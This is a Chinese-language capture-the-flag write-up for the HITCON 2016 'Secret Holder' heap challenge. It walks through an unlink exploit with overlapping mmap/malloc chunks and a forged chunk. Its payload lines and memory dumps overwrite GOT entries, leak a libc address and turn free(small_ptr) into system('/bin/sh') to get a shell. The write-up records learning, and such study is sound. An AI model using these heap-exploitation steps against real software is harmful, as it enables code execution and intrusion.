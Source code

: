 # Secret Holder
這題是比賽結束後照著 **bruce** 學長的想法解出來的，過程中除了複習了還不太熟悉的 unlink exploit 也新學到了幾個 heap 的特性，所以也寫一篇來記錄 XD。

## 觀察程式
首先看一下程式提供的幾項功能：
* `keepSecret`：分配 3 種不同大小的空間，並接受對應大小的輸入到該空間
* `wipeSecret`：`free` 掉某個大小的空間
* `renewSecret`：可以重新寫入某個大小的空間

以及程式中 global 段的幾個變數：
```
 0|-------------|
  |             |
  |   big_ptr   |  # point to allocated 40bytes
  |             |
 8|-------------|
  |             |
  |  huge_ptr   |  # point to allocated 4000bytes
  |             |
16|-------------| 
  |             |
  |  small_ptr  |  # point to allocated 400000bytes
  |             |
24|-------------|
  |   big_flag  |  # set to 1 when use keep big secret
28|-------------|
  |  huge_flag  |  # set to 1 when use keep huge secret
32|-------------|
  |  small_flag |  # set to 1 when use keep small secret
  |-------------|
```

## 解題流程

在開始之前要先知道一件事。動態申請的空間到一定的大小後，會使用 `mmap` 來分配，得到的空間將不會在 heap 上。不過當我們 `free` 掉這塊空間後再次分配相同大小的空間，會發現他改用 `malloc` 來分配了！我有試著觀察這個機制，可以參考 [mmap_test](https://github.com/briansp8210/CTF_writeup/blob/master/HITCONCTF_2016_qual/SecretHolder/mmap_test.md)。

於是我們可以利用這點讓 huge 和 small 兩塊 chunk 重疊，並讓 big 接在 small 後面。
接著就可以開始準備做 unlink 的準備，這裡我們打算在 small chunk 裡面造假 chunk，接著 `free` big chunk，目標是在 unlink 後 huge_ptr 會等於 `(&huge_ptr - 0x18)`。
可以透過 renew huge 來寫入要控的值：

```python
renew(3, 'E'*8 + p64(0x21) + p64(huge_ptr-0x18) + p64(huge_ptr-0x10) + p64(0x20) + p64(0xfb0))
```
<pre>
# 我們的目標，huge_ptr = 0x6020a8

small/huge chunk  -> 0x0000000000000000      0x0000000000000031
huge_ptr point to -> 0x4545454545454545      0x00000000000000<b>21</b>
                     0x0000000000<b>602090</b>      0x0000000000<b>602098</b>
       big chunk  -> 0x00000000000000<b>20</b>      0x0000000000000fb<b>0</b>
 big_ptr point to -> 0x434343434343430a      0x000000000000000a
                     0x0000000000000000      0x0000000000000000
                     0x0000000000000000      0x0000000000000000
</pre>

成功之後我們就可以去 renew huge 來把 huge_ptr 蓋成 `free@got.plt`，順便把位址更高的 small_ptr 蓋成 `__libc_start_main@got.plt`。

```python
renew(3, 'F'*24 + p64(free_got) + p64(libc_start_main_got))
```
<pre>
0x602090:              0x4646464646464646      0x4646464646464646
0x6020a0:              0x4646464646464646      0x0000000000<b>602018</b> <- huge_ptr
0x6020b0: small_ptr -> 0x0000000000<b>602048</b>      0x000000010000000a
0x6020c0:              0x0000000000000001      0x0000000000000000
</pre>

接著只要再 renew huge 送 `puts@plt` 進去，就可以將 `free` 蓋成 `puts` 了。
又因為我們剛才把 small_ptr 蓋成 `__libc_start_main@got.plt`，我們可以用 wipe small 來 leak 出 libc address，從而推出 libc base address。

接著，我們再一次用 renew huge 把 `system` 給送上去，這樣就把 `free` 蓋成 `system` 了。然後我們利用 keep small 把 `"/bin/sh"` 寫進 small_ptr。最後，用 wipe small 的時候就會從 `free(small_ptr)` 變成 `system("/bin/sh")`，順利取得 shell！

